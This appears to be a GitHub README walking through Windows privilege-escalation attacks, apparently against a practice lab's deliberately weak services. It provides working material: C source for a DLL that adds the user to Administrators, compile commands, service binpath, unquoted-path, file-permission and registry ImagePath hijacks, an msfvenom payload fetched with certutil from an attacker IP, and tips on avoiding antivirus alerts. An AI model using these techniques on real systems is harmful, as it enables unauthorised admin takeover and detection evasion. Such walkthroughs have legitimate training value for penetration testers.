 # Windows-PrivEsc

## DLL Hijacking
1. Make sure C:\Temp in the Victim Machine is a writable location for standard user.
2. DLL Injection can be done via modifying any dll file in windows which can be run by the user.
3. We can modify the dll or make our own dll .
4. The dll file can be made by compiling the following code in the attacker machine and then placing it under C:\Temp in  Victim’s machine.

CODE:
```
#include <windows.h>
BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
   if (dwReason == DLL_PROCESS_ATTACH) {
       system("cmd.exe /k net localgroup administrators $USER$ /add");
       ExitProcess(0);
   }
   return TRUE;
}
```

5. Replace $USER$ with standard user name account and the compile it with mingw ,
6. For 64 bit - ```x86_64-w64-mingw32-gcc windows_dll.c -shared -o hijackme.dll```
For 32 bit-  ```i686-w64-mingw32-gcc windows_dll.c -shared -o hijackme.dll```

The above command will generate the dll file , which we will place in C:\Temp
7. Execute the dll file inside the victim via inbuilt windows command i.e RUNDLL32.EXE
Syntax for running the dll file :

In command prompt :
   ``` 
    cd /
    cd /Temp
    RUNDLL32.EXE hijackme.dll
   ```

Boom.!  your user is now added to the local administrator group and you are having the full admin privileges .
- - -

The Accesschk tool is highly recommended to assess any sort of permissions more efficiently. Accesschk is not limited to registry keys it also enables the user to view the access lists of different Windows objects such files, processes, users and groups, and services. One of the most useful features of the tool is that
it returns objects to which a particular user or group may have write access. Using Accesschk on victim machine could be smart but also pretty risky as well so why using it?
Accesschk is a part of Sysinternals Suite which is a singed tool by Microsoft so anti viruses won’t alert when you will drop this tool on the victim machine, however on a large domain environment which have some Security products like SIME and some logical security rule sets you can get caught because it’s not common when a normal user will use Accesschk.

## Binpath

1. After gettig a initial shell, run the following command in your attackers machine, or directly run it into windows VM.
   ```
   accesschk64.exe -wuvc daclsvc
   -w	Show only objects that have write access
   -u	Suppress errors
   -v	Verbose
   -c	Name is a Windows Service
   ```

![0](images/binpath/1.png)

Notice that the output suggests that the user has the “SERVICE_CHANGE_CONFIG” permission.


2. Now type the following command, it will set the binpath to "net localgroup administrators user /add". And when the service will start again, this command will get executed and our user will be added in administrators group. Hence we will escalate privileges.
 
```sc config daclsvc binpath= "net localgroup administrators user /add"```

![0](images/binpath/2.png)

3. Now start the service by typing the following command.
 ```sc start daclsvc```

4. As we can see our user has been added in the administrators group.
![0](images/binpath/3.png)

- - -
## Unquoted path

1. Type the following command.
 
```sc qc unquotedsvc```
"sc qc - Displays the configuration of a particular service"

![0](images/unquote/1.png)

2. Create a executable file with name "common"

 ```msfvenom -p windows/exec CMD='net localgroup administrators user /add' -f exe-service -o common.exe```
![0](images/unquote/2.png)

3. Transfer the file to windows machine and move it into "C:\Program Files\Unquoted Path Service"

```certutil.exe -urlcache -f http://192.168.43.97:8000/common.exe common.exe```

4. Now start the service by typing the following command. When the service will start, it will take the file from C:\Program Files\Unquoted Path Service\Common Files\ but we have placed our payload named common.exe in C:\Program Files\Unquoted Path Service\ so it will execute our malicious file instead of path exploiting the "unquoted path".
 
```sc start unquotedsvc```

![0](images/unquote/3.png)

5. As we can see our user has been added in the administrators group.
![0](images/unquote/4.png)

- - -
## Fileperm

1. Type the following command.
```sc qc filepermsvc```

![0](images/fileperm/1.png)

2. Now type the following command in the terminal.

```accesschk64.exe "C:\Program Files\File Permissions Service\filepermservice.exe"```

![0](images/fileperm/2.png)

3. Create a malicious file with the following payload or you can transfer the windows_service.c file from C:\Users\user\Desktop\Tools\Source folder to your attacker machine and edit it like following.

![0](images/reg/4.png)

4. Now compile it into an executable and transfer back to windows machine.

```x86_64-w64-mingw32-gcc windows_service.c -o filepermservice.exe```

5. Now copy the file from Temp directory to the location.

```copy /y c:\Temp\filepermservice.exe "c:\Program Files\File Permissions Service\filepermservice.exe"```

6. Start the service by typing the following command.
 ```sc start filepermsvc```

7. As we can see our user has been added in the administrators group.
![0](images/unquote/4.png)

- - -
## Services (Registry)
1. Getting a Powershell from initial shell.
![0](images/reg/1.png)
![0](images/reg/2.png)

The Get-Acl cmdlet gets objects that represent the security descriptor of a file or resource. The security descriptor contains the access control lists (ACLs) of the resource. The ACL specifies the permissions that users and user groups have to access the resource. 

2. Now type the following command in your terminal. 
```
Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl
-Path => Specifies the path to a resource. Get-Acl gets the security descriptor of the resource indicated by the path.
```
This uses the Get-Acl cmdlet to get the security descriptor of the Control subkey (HKLM:\SYSTEM\CurrentControlSet\services\regsvc) of the registry.
![0](images/reg/3.png)

3. Create a malicious file with the following payload or you can transfer the windows_service.c file from C:\Users\user\Desktop\Tools\Source folder to your attacker machine and edit it like following.

![0](images/reg/4.png)

4. Now compile it into an executable and transfer back to windows machine.
```
x86_64-w64-mingw32-gcc windows_service.c -o x.exe
```

5. Copy it to C:\Temp directory

6. Now run the following command 
```reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f```

![0](images/reg/5.png)

7. Start the service by typing the following command.
```sc start regsvc```

8. As we can see our user has been added in the administrators group.

![0](images/reg/6.png)
